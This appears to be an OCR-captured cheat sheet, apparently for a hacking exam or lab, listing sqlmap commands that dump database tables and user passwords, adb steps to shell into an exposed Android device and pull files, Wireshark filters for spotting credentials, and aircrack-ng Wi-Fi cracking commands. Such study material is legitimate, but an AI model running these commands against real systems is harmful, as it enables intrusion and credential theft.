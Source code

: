 
sqlmap -u "http://test.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" --dump
sqlmap -u "http://test.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" --dbs
sqlmap -u "http://test.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" -D database_name --tables
sqlmap -u "http://test.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" -D database_name -T users --columns
sqlmap -u "http://test.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" -D database_name -T users -C username,password --dump



sqlmap -u "http://xxx.xxx.xx.xx" --crawl=3 --level=5 --risk=3 --dbs
sqlmap -u "http://xxx.xxx.xx.xx" --crawl=3 --level=5 --risk=3 -D database_name -
T table_name -C Flag --dump
```
# Android
```
1- nmap ip -sV -p 5555    (Scan for adb port)
2- adb connect IP:5555    (Connect adb with parrot)
3- adb shell              (Access mobile device on parrot)
4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)
5 adb pull /sdcard/FOLDER/ or adb pull /sdcard/FOLDER attacker/home/

# Wireshark
```
tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given
tcp.flags.syn == 1   (Which machine for dos)
http.request.method == POST   (for passwords) or click tools ---> credentials
Also

ip.src!=xxx.xx.xx.xx && ip.dst == xxx.xx.xx.xx
Statistics -> Conversations -> IPv4
#Click on the Packets column headerto sort conversations by packet count
```

# Cracking Wi-Fi networks
```
Cracking Wifi Password
aircrack-ng [pcap file] (For cracking WEP network)
aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file] (For cracking WPA2 or other networks through the captured .pcap file)
aircrack-ng -b [Target BSSID] -w ‘/home/wifipass.txt’ ‘/home/wireless.cap’




```bash
#Use airodump-ng to list the wireless networks captured in the W!F!_Pcap.cap file:
airodump-ng xxxxx!_Pcap.cap
#Note down the BSSID MAC address of the target network and the channel it's operating on
#Start capturing traffic on the target network to collect data packets: 
#Replace BSSID and CHANNEL
airodump-ng --bssid BSSID --channel CHANNEL -w outputfile W!F!_Pcap.cap

aircrack-ng -w /path/to/wordlist.txt xxxx-01.cap
aircrack-ng path/xxxx-01.cap file #copy the key
aircrack-ng -b 98:48:35:97:49 /usr/share/wordlists/rockyou.txt /path/xxxx-01.cap
```